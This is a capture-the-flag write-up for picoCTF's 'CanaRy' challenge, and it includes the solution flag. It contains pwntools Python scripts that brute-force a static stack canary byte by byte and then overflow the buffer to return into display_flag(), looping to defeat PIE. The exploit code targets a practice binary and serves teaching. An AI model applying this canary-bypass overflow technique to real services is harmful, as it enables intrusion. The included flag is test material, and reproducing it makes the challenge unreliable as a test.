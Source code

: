 # CanaRy (Binary)

![title](images/title.png)

Hints at brute forcing the canary so lets start with that


```python
#!/usr/bin/env python

from pwn import *


def canary_brute():
	result = ""
	for i in range(4):
		for k in range(256):
			r = process('./vuln')

			r.sendlineafter('> ', str(33+i))

			test = 'A'*32+result+chr(k)

			r.sendlineafter('> ', test)
			out = r.recvline()
			r.close()
			if 'Now' in out:
				result+=chr(k)
				break
			

	return u32(result)

if __name__ == '__main__':
	canary = canary_brute()
	log.info("Canary Found        " + hex(canary))
```

Test it locally then run it on the server and we can update the canary since it never changes according to the source code.

![canary](images/canary.png)

Next is building our payload but another brute force is required due to PIE enabled since we wont know the address of display_flag(). Good thing its 32 bit

Lets run gdb, run the program and get the address of display_flag() and just run a loop hoping it will get used again. I set the program to run to an output.txt in order to hopefully grep the pico flag

```python
#!/usr/bin/env python

from pwn import *

context.log_level = 'error'

def canary_brute():
	result = ""
	for i in range(4):
		for k in range(256):
			r = process('./vuln')

			r.sendlineafter('> ', str(33+i))

			test = 'A'*32+result+chr(k)

			r.sendlineafter('> ', test)
			out = r.recvline()
			r.close()
			if 'Now' in out:
				result+=chr(k)
				break
			

	return u32(result)

def exploit():

	canary = 0x48366137
	#canary = 'CCCC'
	#load
	p = process('./vuln')
	e = ELF('./vuln')

	#addr
	flag = 0x565557ed
	#send length of entry
	p.sendlineafter('> ', '56')

	offset = 32

	#payload
	payload = ''
	payload+= 'A'*offset
	payload+= p32(canary)
	payload+= 'B'*16
	payload+= p32(flag)
	p.sendlineafter('Input> ', payload)

	print p.recv()

	p.close()

if __name__ == '__main__':
	#canary = canary_brute()
	#log.info("Canary Found        " + hex(canary))
	
	for i in range(1000):
		exploit()
```

<details>
	<summary>Flag</summary>

picoCTF{cAnAr135_mU5t_b3_r4nd0m!_0e5152a1}
</details>
